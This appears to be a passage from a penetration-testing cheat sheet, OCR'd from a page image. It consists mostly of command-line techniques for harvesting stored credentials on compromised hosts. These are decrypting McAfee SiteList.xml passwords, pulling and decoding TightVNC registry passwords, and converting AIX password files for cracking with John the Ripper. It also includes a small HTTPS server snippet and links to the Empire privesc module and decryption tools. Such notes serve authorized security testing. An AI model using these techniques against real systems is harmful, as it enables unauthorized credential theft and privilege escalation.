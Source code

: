 Python code
```
    import BaseHTTPServer, SimpleHTTPServer
    import ssl

    httpd = BaseHTTPServer.HTTPServer(('localhost', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
    httpd.serve_forever()
```

#### McAfee SiteList.xml decryption
Sometimes DA and other admin level account passwords are stored in Sitelist.xml files on local hosts
```
    type "C:\ProgramData\McAfee\Common Framework\SiteList.xml" |findstr Password

    ╰ $ ./mcafee_sitelist_pwd_decrypt.py f2mwBTzPQdtnY6QNOsVexH9psAU8z0HbZ2OkDTrFXsR/abAFPM9B3Q==
    Crypted password   : f2mwBTzPQdtnY6QNOsVexH9psAU8z0HbZ2OkDTrFXsR/abAFPM9B3Q==
    Decrypted password : <empty>
```

https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Get-SiteListPassword.ps1

```
git clone https://github.com/funoverip/mcafee-sitelist-pwd-decryption
```

#### TightVNC Password Retrieval

Retrieve TightVNC registry keys
```
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\server
```

Copy password from reg query output
```
    Password    REG_BINARY    7228098734BBBA06
    ControlPassword    REG_BINARY    435D7A037B9FDC2B
```

Download vncpwd.exe or other VNC password decoder
```
    wine vncpwd.exe 7228098734BBBA06
```

#### Password Lists

https://github.com/danielmiessler/SecLists.gits

#### AIX Passwords

/etc/security/passwd

Convert AIX passwd file to john format
```
    cat $1|egrep ":|password" | sed 's/password = //g' | tr -d "\t " |sed ':a;N;$!ba;s/:\n/:/g'
```
